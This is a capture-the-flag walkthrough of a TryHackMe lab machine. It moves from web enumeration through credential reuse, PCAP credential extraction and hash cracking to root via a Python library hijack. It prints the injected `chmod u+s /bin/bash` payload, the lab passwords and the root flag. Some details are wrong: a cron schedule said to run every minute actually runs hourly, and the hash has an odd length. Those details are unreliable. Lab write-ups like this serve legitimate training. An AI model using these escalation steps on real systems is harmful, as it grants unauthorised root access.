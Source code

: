 
---

# CTF Write-Up: Valley

**Platform:** TryHackMe  
**Machine:** Valley  
**Difficulty:** Medium  
**Author:** [Goodluck Temilolu Oyebisi]  
**Date:** [30/8/2025]  

## Overview
Valley is a medium-difficulty CTF machine that involves web exploitation, forensics analysis, hash cracking, and privilege escalation via Python library hijacking. The goal is to find two flags: `user.txt` and `root.txt`.

## Tools Used
- **Nmap** - Network enumeration
- **Gobuster** - Directory bruteforcing
- **cURL** - Web requests and testing
- **Wireshark/tshark** - PCAP analysis
- **Hashcat/Crackstation** - Hash cracking
- **SCP** - File transfer
- **Strings** - Binary analysis
- **Python3** - HTTP server and exploitation

## Step 1: Reconnaissance
### Port Scanning
```bash
nmap -A 10.10.99.141
```
**Open Ports:**
- `22/tcp` - OpenSSH 8.2p1 Ubuntu
- `80/tcp` - Apache httpd 2.4.41

### Web Enumeration
**Gobuster Scan:**
```bash
gobuster dir -u http://10.10.99.141 -w /usr/share/wordlists/dirb/common.txt
```
**Discovered Directories:**
- `/gallery` (301)
- `/pricing` (301)
- `/static` (301)

## Step 2: Web Exploitation
### Initial Findings
- The main page (`index.html`) contained links to `/gallery` and `/pricing`.
- The gallery page (`gallery.html`) displayed images sourced from `/static/1` to `/static/18`.

### Discovering Hidden Notes
A note was found at `/pricing/note.txt`:
```
J,
Please stop leaving notes randomly on the website
-RP
```

### SSRF and Developer Login
- SSRF was tested via `<iframe>` tags in Markdown, leading to the discovery of a hidden developer login page at `/dev1243224123123/`.
- The login page contained a form and linked JavaScript files (`dev.js` and `button.js`).

### Analyzing JavaScript
The `dev.js` file contained hardcoded credentials:
- Username: `siemDev`
- Password: `california`
- Redirect URL on success: `/dev1243224123123/devNotes37370.txt`

### Accessing Developer Notes
The `devNotes37370.txt` file revealed:
```
dev notes for ftp server:
-stop reusing credentials
-check for any vulnerabilies
-stay up to date on patching
-change ftp port to normal port
```

## Step 3: FTP Access
### Port Discovery
A full port scan revealed FTP running on port `37370`.

### FTP Login
Credentials `siemDev:california` were reused to log in:
```bash
ftp 10.10.99.141 37370
```

### Retrieving PCAP Files
Three PCAP files were downloaded:
- `siemFTP.pcapng`
- `siemHTTP1.pcapng`
- `siemHTTP2.pcapng`

## Step 4: Forensics Analysis
### Analyzing PCAPs
- **siemHTTP2.pcapng** contained an HTTP POST request with credentials:
  - Username: `valleyDev`
  - Password: `ph0t0s1234`

### SSH Access
These credentials allowed SSH access:
```bash
ssh valleyDev@10.10.99.141
```

## Step 5: Privilege Escalation to Valley
### Binary Analysis
A binary (`/home/valleyAuthenticator`) was found in `/home`. Analysis with `strings` revealed a hash:
```
e6722920bab2326f8217e4
```

### Hash Cracking
The hash was cracked to `liberty123` using Crackstation.

### User Switching
The password `liberty123` allowed switching to the `valley` user:
```bash
su valley
Password: liberty123
```

## Step 6: Privilege Escalation to Root
### Python Module Hijacking
The user `valley` was a member of the `valleyAdmin` group, which had write permissions to `/usr/lib/python3.8/base64.py`.

### Malicious Code Injection
The file was edited to include:
```python
import os; os.system("chmod u+s /bin/bash")
```

### Cron Job Exploitation
A root cron job was found:
```
1 * * * * root python3 /photos/script/photosEncrypt.py
```
This job executed every minute and imported the `base64` module, triggering the malicious code.

### Root Shell
After the cron job ran, the SUID bit was set on `/bin/bash`:
```bash
/bin/bash -p
```

## Flags
### User Flag
**Location:** `/home/valley/user.txt`  
**Flag:** `THM{...}`

### Root Flag
**Location:** `/root/root.txt`  
**Flag:** `THM{v@lley_0f_th3_sh@d0w_0f_pr1v3sc}`

## Conclusion
The Valley machine involved multiple techniques:
- **Web Enumeration** leading to hidden notes
- **SSRF** for internal service discovery
- **PCAP Analysis** for credential harvesting
- **Hash Cracking** for privilege escalation
- **Python Library Hijacking** for root access

This challenge highlighted the importance of secure credential management and the risks of reusable passwords.

---
